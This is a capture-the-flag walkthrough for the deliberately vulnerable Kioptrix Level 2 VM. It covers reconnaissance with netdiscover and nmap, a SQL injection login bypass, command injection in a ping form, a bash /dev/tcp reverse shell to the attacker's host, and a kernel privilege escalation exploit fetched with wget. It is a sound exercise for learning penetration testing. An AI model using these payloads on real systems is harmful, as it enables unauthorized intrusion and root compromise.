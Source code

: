 # Kioptrix 2

These are a series of challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). These games are to learn the basic tools and techniques in vulnerability assessment and exploitation.

## Action plan:

1. **Intelligence Gathering:**
    
    -   Use `netdiscover` to find the target VM's IP address on the network.
    -   Employ `nmap` to scan the target, identifying open ports, running services, and operating system details.
2. **Vulnerability Identification:**
    
    -   Analyze `nmap` results to pinpoint potential vulnerabilities, such as open ports (SSH, HTTP, HTTPS, MySQL, IPP) and running services (Apache, CUPS).
    -   Research known vulnerabilities associated with identified services (e.g., CUPS v1.1).
3. **Exploitation:**
    
    -   Discover a SQL injection vulnerability on the website's login page.
    -   Utilize SQL injection to bypass authentication and gain access to a ping command prompt.
    -   Identify and exploit a command injection vulnerability in the ping prompt to execute arbitrary commands.
4. **Reverse Shell:**
    
    -   Set up a Netcat listener on the attacker's machine.
    -   Use the command injection vulnerability to initiate a reverse shell connection from the target VM to the attacker's machine.
5. **Privilege Escalation:**
    
    -   Gather information about the target system's operating system and kernel version.
    -   Find a suitable privilege escalation exploit (ip\_append\_data\_() Ring0) based on the system information.
    -   Transfer the exploit to the target VM, compile it, and execute it to gain root access.
    

# Challenge Analysis: Kioptrix: Level 2

## 1. Intelligence Gathering

-   **Find Target IP:** Used `netdiscover` to scan the network (192.168.8.0/16) and identify the target VM's IP address as 192.168.1.5.
    
    <reflection>
    
    -   This is a standard initial step in penetration testing.
    -   `netdiscover` is an appropriate tool for this purpose.
    
    </reflection>
    
-   **Port and Service Scanning:** Employed `nmap` with options `-sS -A -n` to perform a stealth SYN scan, aggressive service detection, and no DNS resolution on the target IP (192.168.1.5).
    
    <reflection>
    
    -   `nmap` is a powerful tool for port and service scanning.
    
    </reflection>
    

## 2. Vulnerability Identification

-   **Analyze `nmap` Results:** Identified open ports (22/SSH, 80/HTTP, 443/HTTPS, 3306/MySQL, 631/IPP) and running services (OpenSSH 3.9p1, Apache 2.0.52, CUPS 1.1).
    
    <reflection>
    
    -   The identified ports and services are potential entry points for exploitation.
    
    </reflection>
    
-   **Research Vulnerabilities:** Investigated known vulnerabilities for the identified services, particularly focusing on CUPS v1.1 due to its history of exploits.
    
    <reflection>
    
    -   This is a crucial step in vulnerability assessment.
    -   Focusing on services with known vulnerabilities is a good strategy.
    
    </reflection>
    

## 3. Exploitation

-   **SQL Injection:** Discovered a SQL injection vulnerability on the website's login page. Injected `1' or '1'='1` into both username and password fields to bypass authentication.
    
    <reflection>
    
    -   SQL injection is a common web application vulnerability.
    -   The injected payload is a classic example of a SQL injection attack.
    
    </reflection>
    
-   **Command Injection:** Identified a command injection vulnerability in the ping command prompt. Used `127.0.0.1; id` to execute the `id` command after a ping command, confirming the vulnerability.
    
    <reflection>
    
    -   Command injection is another common web application vulnerability.
    -   The payload effectively demonstrates the ability to execute arbitrary commands.
    
    </reflection>
    

## 4. Reverse Shell

-   **Netcat Listener:** Set up a Netcat listener on the attacker's machine (192.168.1.3) using `nc -nlvp 443` to listen on port 443.
    
    <reflection>
    
    -   Netcat is a versatile tool for network connections.
    -   Listening on port 443 is a good choice as it's often open.
    
    </reflection>
    
-   **Reverse Shell Payload:** Used the command injection vulnerability to execute `127.0.0.1; bash -i >& /dev/tcp/192.168.1.3/443 0>&1`, initiating a reverse shell connection to the attacker's machine.
    
    <reflection>
    
    -   The payload effectively establishes a reverse shell using bash.
    
    </reflection>
    

## 5. Privilege Escalation

-   **System Information Gathering:** Used `cat /etc/*-release`, `cat /proc/version`, and `rpm -q kernel` to gather information about the target system's OS (CentOS 4.5) and kernel version (2.6.9-55.EL).
    
    <reflection>
    
    -   Gathering system information is crucial for finding suitable exploits.
    
    </reflection>
    
-   **Exploit Research:** Found a privilege escalation exploit called "ip\_append\_data\_() Ring0" that was suitable for the target system's kernel version.
    
    <reflection>
    
    -   Finding a relevant exploit is a key step in privilege escalation.
    
    </reflection>
    
-   **Exploit Transfer and Execution:**
    
    -   Copied the exploit code to a file (priv.c) on the attacker's machine.
    -   Compiled the exploit using `gcc -o priv priv.c`.
    -   Moved the compiled exploit to `/var/www/html` and started an Apache server on the attacker's machine.
    -   Used `wget http://192.168.1.3/priv` on the target machine to download the exploit.
    -   Changed the exploit's permissions using `chmod 755 priv`.
    -   Executed the exploit using `./priv`.
    
    <reflection>
    
    -   The steps for transferring and executing the exploit are well-defined.
    -   Using a web server to transfer the exploit is a common technique.
    
    </reflection>
    
-   **Root Access Confirmation:** Used `id` and `whoami` to confirm that the exploit successfully granted root access (uid=0(root), gid=0(root)).
    
    <reflection>
    
    -   These commands are standard for verifying user privileges.
    -   The output confirms that root access has been obtained.
    
    </reflection>
tell me about this page